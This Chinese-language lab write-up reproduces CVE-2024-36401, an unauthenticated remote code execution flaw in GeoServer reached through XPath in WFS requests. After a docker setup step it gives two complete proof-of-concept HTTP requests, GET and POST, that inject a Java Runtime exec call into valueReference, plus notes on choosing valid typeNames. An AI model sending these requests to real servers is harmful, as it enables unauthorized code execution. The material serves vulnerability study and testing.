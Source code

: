 # GeoServer 属性名表达式前台代码执行漏洞（CVE-2024-36401）

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在GeoServer 2.25.1， 2.24.3， 2.23.5版本及以前，未登录的任意用户可以通过构造恶意OGC请求，在默认安装的服务器中执行XPath表达式，进而利用执行Apache Commons Jxpath提供的功能执行任意代码。

参考链接：

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv>
- <https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w>
- <https://tttang.com/archive/1771/>
- <https://github.com/Warxim/CVE-2022-41852>

## 漏洞环境

执行如下命令启动一个GeoServer 2.23.2服务器：

```
docker compose up -d
```

服务启动后，你可以在`http://your-ip:8080/geoserver`查看到GeoServer的默认页面。

## 漏洞复现

在官方[漏洞通告](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv)中提到可以找到漏洞相关的WFS方法：

> No public PoC is provided but this vulnerability has been confirmed to be exploitable through WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic and WPS Execute requests.

比如，我这里使用`GetPropertyValue`来执行xpath表达式。参考[官方文档](https://github.com/geoserver/geoserver/blob/2.23.2/doc/en/user/source/services/wfs/reference.rst)，我构造了两个POC。基于GET方法的POC：

```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

基于POST方法的POC：

```
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```

熟悉的`java.lang.ClassCastException`错误，说明命令已执行成功。

![](1.png)

进入容器可见，`touch /tmp/success1`与`touch /tmp/success2`均已成功执行。

![](2.png)

值得注意的是，typeNames必须存在，我们可以在Web页面中找到当前服务器中的所有Types：

![](3.png)
